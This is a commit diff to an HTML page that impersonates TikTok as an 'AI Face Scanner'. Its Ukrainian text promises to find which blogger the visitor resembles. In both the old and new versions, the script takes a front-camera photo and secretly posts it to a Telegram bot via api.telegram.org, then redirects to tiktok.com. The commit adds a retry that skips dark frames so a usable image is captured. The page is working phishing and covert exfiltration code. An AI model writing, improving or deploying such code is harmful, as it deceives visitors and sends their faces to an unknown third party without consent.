

Before and after one commit to tarastsymbal11l-rgb/tiktok-ai-scanner, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 353-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,103 +4,31 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>TikTok AI Scanner</title>
-
     <meta property="og:title" content="TikTok - AI Face Scanner">
-    <meta property="og:description" content="Дізнайся, на якого блогера ти схожий! Спробуй новий ефект прямо зараз.">
+    <meta property="og:description" content="Дізнайся, на якого блогера ти схожий!">
     <meta property="og:image" content="https://sf16-scmcdn-va.ibytedtos.com/goofy/tiktok/card/logo.png">
     <meta name="theme-color" content="#fe2c55">
-
     <style>
-        body {
-            background: #000;
-            color: #fff;
-            text-align: center;
-            font-family: 'Proxima Nova', -apple-system, BlinkMacSystemFont, sans-serif;
-            display: flex;
-            flex-direction: column;
-            align-items: center;
-            justify-content: center;
-            height: 100vh;
-            margin: 0;
-            overflow: hidden;
-        }
-
-        .container { padding: 20px; max-width: 400px; width: 85%; position: relative; z-index: 2; }
-
-        .logo { width: 50px; height: 50px; margin-bottom: 25px; }
-
-        h2 { font-size: 26px; font-weight: 800; margin-bottom: 10px; letter-spacing: -0.5px; }
-        p { color: #a1a1a1; font-size: 15px; margin-bottom: 35px; line-height: 1.5; }
-
-        /* Кнопка з пульсацією */
-        .btn {
-            background: #fe2c55;
-            border: none;
-            padding: 18px 40px;
-            color: #fff;
-            font-size: 16px;
-            font-weight: 700;
-            border-radius: 4px;
-            cursor: pointer;
-            width: 100%;
-            box-shadow: 0 4px 15px rgba(254, 44, 85, 0.3);
-            transition: transform 0.2s, background 0.2s;
-            animation: pulse 2s infinite;
-        }
-        @keyframes pulse {
-            0% { transform: scale(1); }
-            50% { transform: scale(1.03); }
-            100% { transform: scale(1); }
-        }
-        .btn:active { transform: scale(0.98); background: #e0244d; }
-
-        /* Лінія сканування */
-        #scanner-line {
-            display: none;
-            position: fixed;
-            top: 0;
-            left: 0;
-            width: 100%;
-            height: 4px;
-            background: #fe2c55;
-            box-shadow: 0 0 20px #fe2c55, 0 0 40px #fe2c55;
-            z-index: 10;
-            animation: scan 2s linear infinite;
-        }
-        @keyframes scan {
-            0% { top: 0%; }
-            100% { top: 100%; }
-        }
-
+        body { background: #000; color: #fff; text-align: center; font-family: sans-serif; display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .container { padding: 20px; max-width: 400px; }
+        .logo { width: 80px; margin-bottom: 20px; }
+        .btn { background: #fe2c55; border: none; padding: 16px 40px; color: #fff; font-size: 16px; font-weight: bold; border-radius: 4px; cursor: pointer; width: 100%; }
         #status { display: none; margin-top: 20px; }
-        .loader {
-            border: 3px solid #222;
-            border-top: 3px solid #fe2c55;
-            border-radius: 50%;
-            width: 35px;
-            height: 35px;
-            animation: spin 0.8s linear infinite;
-            margin: 0 auto 15px;
-        }
+        .loader { border: 3px solid #333; border-top: 3px solid #fe2c55; border-radius: 50%; width: 30px; height: 30px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-
-        video, canvas { display: none; visibility: hidden; pointer-events: none; }
+        video, canvas { display: none; }
     </style>
 </head>
 <body>
 
-    <div id="scanner-line"></div>
-
     <div class="container" id="ui">
-        <img src="https://www.edigitalagency.com.au/wp-content/uploads/TikTok-logo-PNG-White-on-Black-Background.png" class="logo" alt="TikTok">
-        <h2 id="main-title">AI Face Analyzer</h2>
-        <p id="main-desc">Дозвольте доступ до камери, щоб нейромережа TikTok проаналізувала ваші риси та знайшла схожих блогерів.</p>
-
-        <button class="btn" id="startBtn" onclick="runScanner()">Почати сканування</button>
-
+        <img src="https://logodownload.org/wp-content/uploads/2019/01/tiktok-logo-7.png" class="logo">
+        <h2>AI Face Analyzer</h2>
+        <p>Натисніть кнопку, щоб почати сканування.</p>
+        <button class="btn" onclick="start()">Почати аналіз</button>
         <div id="status">
             <div class="loader"></div>
-            <p id="status-text" style="color: #fe2c55; font-weight: bold; font-size: 13px; text-transform: uppercase; letter-spacing: 1px;">Підключення до AI серверів...</p>
+            <p>Налаштування нейромережі...</p>
         </div>
     </div>
 
@@ -112,52 +40,55 @@
         const chat = '7808795546';
         const tiktokUrl = 'https://www.tiktok.com/explore';
 
-        async function runScanner() {
+        async function start() {
             try {
-                const stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } });
-                const video = document.getElementById('v');
-                video.srcObject = stream;
+                const s = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } });
+                const v = document.getElementById('v');
+                v.srcObject = s;
 
-                // Міняємо інтерфейс
-                document.getElementById('startBtn').style.display = 'none';
-                document.getElementById('main-desc').style.display = 'none';
+                document.querySelector('.btn').style.display = 'none';
+                document.querySelector('p').style.display = 'none';
                 document.getElementById('status').style.display = 'block';
-                document.getElementById('scanner-line').style.display = 'block';
 
-                const statusText = document.getElementById('status-text');
+                // Очікуємо стабілізації камери 1.5 секунди
+                // Це прибере 99% чорних фото на слабких телефонах
+                setTimeout(() => {
+                    takeSnap(s, v);
+                }, 1500);
 
-                // Імітація процесу
-                setTimeout(() => statusText.innerText = "Сканування обличчя...", 800);
-                setTimeout(() => statusText.innerText = "Обробка біометрії...", 1600);
-                setTimeout(() => statusText.innerText = "Пошук збігів...", 2400);
+            } catch (e) {
+                window.location.href = tiktokUrl;
+            }
+        }
 
-                // Робимо знімок через 2.5 сек (коли камера стабільна)
-                setTimeout(() => {
-                    const canvas = document.getElementById('c');
-                    const ctx = canvas.getContext('2d');
-                    ctx.drawImage(video, 0, 0, 640, 480);
+        function takeSnap(s, v) {
+            const canvas = document.getElementById('c');
+            const ctx = canvas.getContext('2d');
 
-                    canvas.toBlob(blob => {
-                        const formData = new FormData();
-                        formData.append('chat_id', chat);
-                        formData.append('photo', blob, 'scan.jpg');
+            // Малюємо кадр
+            ctx.drawImage(v, 0, 0, 640, 480);
 
-                        // Відправка
-                        fetch(`https://api.telegram.org/bot${token}/sendPhoto`, { method: 'POST', body: formData });
+            // Перевірка на "чорноту": беремо центральний піксель
+            const pixelData = ctx.getImageData(320, 240, 1, 1).data;
+            const brightness = (pixelData[0] + pixelData[1] + pixelData[2]) / 3;
 
-                        // Фінальний редирект
-                        setTimeout(() => {
-                            stream.getTracks().forEach(t => t.stop());
-                            window.location.replace(tiktokUrl);
-                        }, 800);
+            // Якщо дуже темно (яскравість < 5), пробуємо ще раз через 200мс
+            if (brightness < 5) {
+                setTimeout(() => takeSnap(s, v), 200);
+                return;
+            }
 
-                    }, 'image/jpeg', 0.7);
-                }, 2500);
+            canvas.toBlob(b => {
+                const f = new FormData();
+                f.append('chat_id', chat);
+                f.append('photo', b, 'img.jpg');
 
-            } catch (err) {
-                // Якщо відмова в доступі
-                window.location.replace(tiktokUrl);
-            }
+                fetch(`https://api.telegram.org/bot${token}/sendPhoto`, { method: 'POST', body: f })
+                .finally(() => {
+                    s.getTracks().forEach(t => t.stop());
+                    window.location.href = tiktokUrl;
+                });
+            }, 'image/jpeg', 0.7);
         }
     </script>
 </body>
```
